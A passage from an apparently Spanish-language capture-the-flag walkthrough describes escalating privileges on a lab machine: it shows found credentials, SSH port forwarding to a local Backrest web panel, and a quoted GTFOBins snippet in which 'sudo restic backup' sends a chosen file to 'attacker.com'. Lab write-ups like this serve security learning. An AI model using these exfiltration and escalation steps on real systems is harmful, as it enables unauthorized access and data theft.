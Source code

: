 Veremos que ha funcionado, por lo que tendremos las siguientes credenciales:

```
User: backrest_root
Pass: !@#$%^
```

Teniendo esto vamos a realizar un `portforwarding` del puerto `9898` que esta de forma local con `SSH` de esta forma:

```shell
ssh -L 9898:127.0.0.1:9898 gael@<IP>
```

Metiendo la contraseña del usuario `gael` accederemos de forma correcta, echo esto en nuestro `host` en la pagina web vamos acceder de la siguiente forma:

```
URL = http://localhost:9898/
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 135955.png" alt=""><figcaption></figcaption></figure>

Veremos que funciona y veremos un `login` vamos a utilizar las credenciales encontradas anteriormente y veremos que funciona.

En el archivo del `backup` vemos que hay un binario llamado `restic`, si lo buscamos en `GTFObins` veremos que existe:

> sudo restic (GTFOBins)

```shell
RHOST=attacker.com
RPORT=12345
LFILE=file_or_dir_to_get
NAME=backup_name
sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
```

Veremos que en la pagina en la seccion de `sudo` esta la siguiente configuracion para abusar de ello, pero no podemos ejecutar `sudo` con el binario.

Si entramos en la pagina con las credenciales que ya tenemos y creamo un `Add Repo`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 145014.png" alt=""><figcaption></figcaption></figure>

Metiendo la informacion que queramos, cuando lo creemos si entramos dentro del mismo veremos una opcion llamada `Run Command`, que si le damos y hacemos `help`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 145124.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 145204.png" alt=""><figcaption></figcaption></figure>

Veremos que esta haciendo por dentro este comando:

```shell
/opt/backrest/restic <Command> -o sftp.args=-oBatchMode=yes
```
